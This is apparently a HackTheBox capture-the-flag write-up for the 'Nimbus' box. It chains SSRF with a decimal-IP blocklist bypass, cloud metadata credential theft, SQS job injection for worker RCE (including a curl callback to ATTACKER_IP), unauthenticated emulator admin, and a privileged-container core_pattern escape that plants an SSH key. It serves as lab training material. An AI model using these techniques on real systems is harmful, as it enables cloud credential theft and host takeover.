

# 🌩️ HackTheBox — Nimbus


> **Internal Job Scheduler** backed by a self-hosted AWS-API emulator.
> Chain: **SSRF → cloud metadata creds → SQS job injection (worker RCE) → unauthenticated emulator admin → privileged-container host escape.**

> `ATTACKER_IP` (your VPN IP) and `TARGET_IP` (the box) are placeholders — fill in your own.
> Credential strings shown in the walkthrough are example IMDS output and are regenerated
> per machine spawn (they expire), so yours will differ.

---

## ⚡ Quick start (automated, one shot)

If you just want both flags, the whole chain is automated in [`exploit.sh`](exploit.sh):

```bash
chmod +x Nimbus/exploit.sh
./Nimbus/exploit.sh        # prompts for target IP + your VPN IP, sets up /etc/hosts & deps, prints both flags
```

The script prompts for the IPs, configures `/etc/hosts`, installs deps, then runs the full
chain (SSRF → IMDS → SQS worker RCE → privileged CodeBuild → `core_pattern` escape) and
exfils **both flags** back to you. Expect output like:

```
[+] user.txt = <user flag>
[+] root.txt = <root flag>
```

If you'd rather understand *every* step (recommended for learning), follow the manual
walkthrough below — each section explains the **why**, not just the command.

## Prerequisites

- HTB VPN connected; the box IP in `/etc/hosts` as shown above.
- Tools: `nmap`, `curl`, `awscli` (`aws`), Python 3 with `boto3`+`pyyaml`. (`exploit.sh` installs them for you.)
- A listener your box can receive callbacks on (the scripts use one automatically).

---

## Contents

- [Attack flow](#attack-flow)
- [1 · Recon](#1--recon)
- [2 · SSRF in the job fetcher](#2--ssrf-in-the-job-fetcher)
- [3 · SSRF → IMDS credentials](#3--ssrf--imds-credentials)
- [4 · Driving the emulated AWS API](#4--driving-the-emulated-aws-api)
- [5 · SQS job injection → worker RCE (USER)](#5--sqs-job-injection--worker-rce-user)
- [6 · Unauthenticated admin on the emulator](#6--unauthenticated-admin-on-the-emulator)
- [7 · Root — privileged-container escape](#7--root--privileged-container-escape)
- [Loot](#loot)
- [Vulnerabilities](#vulnerabilities)
- [Repository layout](#repository-layout)

---

## Attack flow



---

## 1 · Recon

```bash
nmap -p- --min-rate 2000 TARGET_IP            # 22, 80
nmap -p22,80 -sCV TARGET_IP
# 22  OpenSSH 9.6p1 Ubuntu
# 80  nginx 1.24.0  -> redirects to http://nimbus.htb/
echo "TARGET_IP  nimbus.htb aws.nimbus.htb" | sudo tee -a /etc/hosts
```

The app is **"Nimbus — Internal Job Scheduler" v1.4.2**.

| Endpoint | Notes |
|---|---|
| `/jobs`, `/jobs/preview` | submit a job by **raw Git URL** or by **pasting YAML** |
| `/login` | disabled ("SSO migrating to Okta") — states **the job submitter is unauthenticated during migration** |
| `/api/v1/health` | leaks `queue`/`scheduler`/`storage` all at `http://aws.nimbus.htb` |

`http://aws.nimbus.htb/` directly returns an AWS **STS `InvalidClientTokenId`** error —
an AWS-API emulator meant to be reached only server-side. That's the SSRF target.

---

## 2 · SSRF in the job fetcher

`POST /jobs/preview` with `url=` fetches an arbitrary URL **and reflects the full body**:

```bash
curl -s --resolve nimbus.htb:80:TARGET_IP -X POST http://nimbus.htb/jobs/preview \
  --data-urlencode 'url=http://ATTACKER_IP:8000/test.yaml'
# -> "Fetched: ... HTTP 200" + raw body echoed back  == full-read SSRF
```

Two filters, in order:

1. **Suffix check** — URL must end in `.yaml`/`.yml` → bypass by appending `?x=.yaml`.
2. **Internal-resource block** — `aws.nimbus.htb`, `169.254.169.254`, `127.0.0.1`,
   `localhost`, the box IP, hex IPs (`0xA9FEA9FE`), `*.nip.io` are blocked.

The fetcher **does not follow redirects** (open-redirect returns the raw 302).

> ✅ **Working bypass — decimal IP encoding** (passes the string blocklist; `requests`
> still resolves it): `169.254.169.254` → **`2852039166`** (octal `0251.0376.0251.0376` also works).

---

## 3 · SSRF → IMDS credentials

```bash
B='--resolve nimbus.htb:80:TARGET_IP'
post(){ curl -s $B -X POST http://nimbus.htb/jobs/preview --data-urlencode "url=$1"; }

post 'http://2852039166/latest/meta-data/iam/security-credentials/?x=.yaml'
#  -> nimbus-web-role
post 'http://2852039166/latest/meta-data/iam/security-credentials/nimbus-web-role?x=.yaml'
```

```json
{
  "Code": "Success",
  "AccessKeyId": "ASIAQX4PG7L2K9M3N5R8",
  "SecretAccessKey": "bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs",
  "Token": "IQoJb3JpZ2luX2VjEHQ...<full token in raw response>",
  "Expiration": "2026-06-21T15:45:02Z"
}
```

Bonus reads: `/latest/meta-data/local-ipv4` → `10.0.1.42`,
`local-hostname` → `ip-10-0-1-42.ec2.internal`.

---

## 4 · Driving the emulated AWS API

`aws.nimbus.htb` proxies to the emulator. Point the AWS CLI at it:

```bash
export AWS_ACCESS_KEY_ID=ASIAQX4PG7L2K9M3N5R8
export AWS_SECRET_ACCESS_KEY='bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs'
export AWS_SESSION_TOKEN='IQoJb3JpZ2luX2VjEHQ...'
export AWS_DEFAULT_REGION=us-east-1
E='--endpoint-url http://aws.nimbus.htb'

aws $E sts get-caller-identity
#  arn:aws:sts::847219365028:assumed-role/nimbus-web-role/i-0a1b2c3d4e5f6789a
aws $E sqs list-queues
#  http://floci:4566/847219365028/nimbus-jobs      <-- "floci" :4566 emulator
```

`nimbus-web-role` is scoped to `sqs:SendMessage` on `nimbus-jobs` (+ queue attrs).

---

## 5 · SQS job injection → worker RCE (USER)

A worker consumes `nimbus-jobs` and **executes the job's `script` field**. `/app/worker.py`:

```python
job = yaml.load(body, Loader=yaml.Loader)   # also a YAML-deserialization RCE
script = job.get("script", "")
if script:
    subprocess.run(["python3", "-c", script], capture_output=True, text=True, timeout=30)
```

```bash
Q='http://aws.nimbus.htb/847219365028/nimbus-jobs'
aws $E sqs send-message --queue-url $Q --message-body $'name: pwn\nschedule: manual\nruntime: python3.11\nscript: |\n  import os; os.system("id; curl http://ATTACKER_IP:8001/x")'
# -> code execution as uid=1000(worker) in a container
```

<details><summary><b>RCE tooling (output goes nowhere → exfil helpers)</b></summary>

The only channel is "drop a Python job on the queue." Helpers in [`tools/`](tools):

- `exfil2.py` — threaded HTTP server that writes request bodies to files.
- `sendjob.py` / `runcmd.py` — wrap a shell command **or** Python script into a worker
  job whose output is POSTed back to the exfil server.

**Constraint:** the worker kills any job over **30 s** (`subprocess.run(..., timeout=30)`),
so long-running work (spawned containers) is launched async and observed via callbacks.
</details>

---

## 6 · Unauthenticated admin on the emulator

The IAM check lives **only on the `aws.nimbus.htb` proxy**. Hitting the emulator
**directly** at `http://floci:4566` (from inside the container network; `floci` =
`172.18.0.2`) needs **no valid creds** — dummy `test`/`test` → `iam::root`:

```python
import boto3
def c(s): return boto3.client(s, endpoint_url="http://floci:4566",
        region_name="us-east-1", aws_access_key_id="test", aws_secret_access_key="test")
c("sts").get_caller_identity()    # arn:aws:iam::847219365028:root  (FULL ADMIN)
```

The emulator is **floci** — an MIT-licensed Java/Quarkus LocalStack re-implementation
(`edition: floci-always-free`, reports `1.5.17`); `/_localstack/health` shows s3, ssm,
secretsmanager, lambda, ecs, ec2, codebuild, eks … all running.

S3 holds a **previous solver's leftover artifacts** (gadget YAMLs + a modified
`source/worker.py` in `nimbus-dev-artifacts`) — useful as hints, but their CodeBuild
attempts all failed.

---

## 7 · Root — privileged CodeBuild + entrypoint bypass + core_pattern escape

Goal: escape an emulator-spawned container to the Docker **host** and read `/root/root.txt`.

**Working exploit (TL;DR):** floci's **CodeBuild** honors `privilegedMode=true` → a real
`--privileged` container. Use the present **`floci/floci:latest`** image. Its entrypoint
runs `id` and `gosu`-drops to uid 1001 (so the build keepalive `mkdir /codebuild` would
fail as non-root) — **bypass it with a Shellshock-style exported bash function** so `id`
reports a non-root uid and the entrypoint *skips the drop*, leaving the container running
as **real root**. Then escape via the kernel `core_pattern` usermode-helper.

```python
# run against http://floci:4566 (test/test) from the worker foothold
cb.create_project(name="nimbus-poc", source={"type":"NO_SOURCE"}, artifacts={"type":"NO_ARTIFACTS"},
    environment={"type":"LINUX_CONTAINER","computeType":"BUILD_GENERAL1_SMALL",
                 "image":"floci/floci:latest","privilegedMode":True},
    serviceRole="arn:aws:iam::000000000000:role/codebuild-role")
cb.start_build(projectName="nimbus-poc",
    environmentVariablesOverride=[
        {"name":"BASH_FUNC_id%%","value":"() { echo uid=1000; }","type":"PLAINTEXT"}],  # <-- defeats the gosu drop
    buildspecOverride=BUILDSPEC)
```

```yaml
# BUILDSPEC — runs as ROOT in a --privileged container; core_pattern escape to host
version: 0.2
phases:
  build:
    commands:
      - id; grep -E '^(Uid|CapEff)' /proc/self/status          # uid=0, CapEff=0x1ffffffffff
      - UDIR=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/self/mountinfo | head -1)
      - printf '#!/bin/sh\ncat /root/root.txt > %s/rootflag.txt\nmkdir -p /root/.ssh; echo "<pubkey>" >> /root/.ssh/authorized_keys\n' "$UDIR" > /exploit_root.sh
      - chmod +x /exploit_root.sh
      - echo "|${UDIR}/exploit_root.sh" > /proc/sys/kernel/core_pattern   # host-wide, needs CAP_SYS_ADMIN
      - ulimit -c unlimited; bash -c 'kill -11 $$'              # coredump -> host kernel runs our script as root
      - sleep 4; cat /rootflag.txt        # == host /root/root.txt ; exfil it (build container can reach you)
```

Result: `core_pattern` runs `exploit_root.sh` as **root on the host**, copying `/root/root.txt`
into the container's overlay `upperdir` (readable inside the build) and planting our SSH key
in the host's `/root/.ssh/authorized_keys` → `ssh root@TARGET_IP` = full interactive host root.
See [`tools/codebuild_root.py`](tools/codebuild_root.py).

> **The one trick that makes it work:** without `BASH_FUNC_id%%`, every present image fails
> CodeBuild's root-only keepalive (floci/worker images gosu/USER-drop to non-root; the lambda
> image's entrypoint rejects the multi-arg keepalive). Forcing `id` to lie keeps `floci/floci`
> running as real root, which is the only present image that can be coerced this way.

<details><summary><b>Appendix: service-by-service confinement analysis (the dead ends explored before the writeup confirmed the BASH_FUNC trick)</b></summary>

| Service | Behaviour |
|---|---|
| **Lambda** | root, but default-cap container (`CapEff=a80425fb`), RO `/proc/sys`, device-cgroup enforced. `mknod`+`dd` on `/dev/sda4` → "operation not permitted". No escape. |
| **ECS** | root + honours `entryPoint`/`command`, **but ignores `privileged` and host volumes**. Same confinement. |
| **Batch** | user image + command, **no `privileged`**. |
| **CodeBuild** | **honours `privilegedMode` → real `--privileged`** (CAP_SYS_ADMIN, writable `/proc/sys`). Intended primitive. |
| **EC2 / EKS** | launch **unconditionally privileged** containers; EC2 runs **UserData as root via `docker exec`**. |

</details>

**The blocker — the host is offline.** floci runs spawned containers on the host Docker
daemon, and DNS to `8.8.8.8` times out, so only **pre-pulled** images run. Present:

- `public.ecr.aws/lambda/python:3.11` — root, but its **entrypoint** swallows the keepalive `CMD` and exits.
- `floci/floci:latest` — entrypoint `gosu`-drops PID 1 to uid 1001 (CodeBuild keepalive `mkdir /codebuild` fails), **but `docker exec` lands as root**.
- `nimbus_worker:latest` — present, non-root.

EC2/EKS catalog images (amazonlinux/ubuntu/alpine/debian) are all absent (`CannotPull`),
and floci has **no `RegisterImage`** to point an AMI at an arbitrary image.

**Documented route to root** — get a present root/entrypoint-less image into a privileged
service (push a minimal image to floci's **own ECR** for CodeBuild — internal pull, no
internet needed; or use EC2 UserData with `floci/floci:latest`), then:

```yaml
# CodeBuild buildspec, privilegedMode=true
version: 0.2
phases:
  build:
    commands:
      - mkdir -p /mnt/h && mount /dev/sda4 /mnt/h        # privileged -> host disk
      - cat /mnt/h/root/root.txt
      - mkdir -p /mnt/h/root/.ssh && echo "<pubkey>" >> /mnt/h/root/.ssh/authorized_keys
      # then: ssh root@TARGET_IP
```

Host-agnostic alternative — `core_pattern` + overlay `upperdir` (privileged container):

```sh
UPPER=$(grep -oP 'upperdir=\K[^,]+' /proc/mounts | head -1)
printf '#!/bin/bash\ncat /root/root.txt > '"$UPPER"'/loot\n' > /h.sh; chmod +x /h.sh
echo "|$UPPER/h.sh" > /proc/sys/kernel/core_pattern
ulimit -c unlimited; cd /tmp; python3 -c 'import ctypes; ctypes.string_at(0)'   # coredump → host root runs /h.sh
```

---

## Loot

| | |
|---|---|
| `user.txt` | `c1be2e41e830b0125e55798d65fc97df` |
| `root.txt` | `40fed8986aecd3dc5ee8346a2a82c582` |
| `nimbus-web-role` | `ASIAQX4PG7L2K9M3N5R8` / `bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs` (+ session token) |
| `nimbus-worker-role` | `AKIA7P3R9X4K8M2L5VHN` / `dM4nV/q8Hf7LcRpZ2eY1KjBxN5Aozs3T6gU9JfWh` |
| AWS account | `847219365028` · region `us-east-1` |

---

## Vulnerabilities

1. **SSRF, weak validation** — suffix + string blocklist, bypassed with decimal IP encoding → cloud-metadata credential theft.
2. **Split-brain auth** — IAM enforced on the public proxy, **wide-open on the internal emulator** (`floci:4566`).
3. **Trusting the queue** — the worker executes `script` / `yaml.load` from SQS with no validation → RCE for anyone who can `SendMessage`.
4. **Emulator container-spawn runs as root**, and EC2/EKS/CodeBuild run **privileged** — emulator admin becomes host compromise.

---

## Repository layout

```
README.md               — this step-by-step writeup
timeline.md             — concise chronological log of the whole solve
exploit.sh              — interactive one-shot: prompts for IPs, sets up env, captures both flags
tools/
  listener.py           — threaded HTTP server that catches exfil/callbacks
  sendjob.py            — wrap a Python script into an SQS worker job (manual RCE)
  runcmd.py             — wrap a shell command into a worker job, exfil its output
  enum_aws.py           — enumerate the floci emulator services (admin, test/test)
  read_s3.py            — dump the nimbus-dev-artifacts S3 bucket
  codebuild_root.py     — standalone privileged-CodeBuild + core_pattern root escape
```

> The helper scripts use placeholders (`<ACCESS_KEY_FROM_SSRF>`, `<YOUR_SSH_PUBLIC_KEY>`, etc.)
> — drop in your own values from the corresponding step. `exploit.sh` prompts for everything; nothing hardcoded.

---

### Learning notes

- **Why the SSRF bypass works:** the filter is a naive *string* blocklist; octal/decimal IP
  encodings resolve to the same address but don't match the blocked literal.
- **Why `safe_load` vs `yaml.load` matters:** the web preview uses `safe_load` (no RCE), but the
  worker uses `yaml.load(..., Loader=yaml.Loader)` — anything you can put on the queue runs.
- **Why split-brain auth is the whole game:** IAM is enforced on the public proxy but the internal
  emulator (`floci:4566`) trusts `test/test` as admin — one foothold on the network = cloud admin.
- **Why the `BASH_FUNC_id%%` trick is needed:** the privileged CodeBuild container is the only way
  to get `CAP_SYS_ADMIN` + writable `/proc/sys`; the present image's entrypoint drops root unless
  you fool its `id` check, and `core_pattern` is what turns that root container into host root.
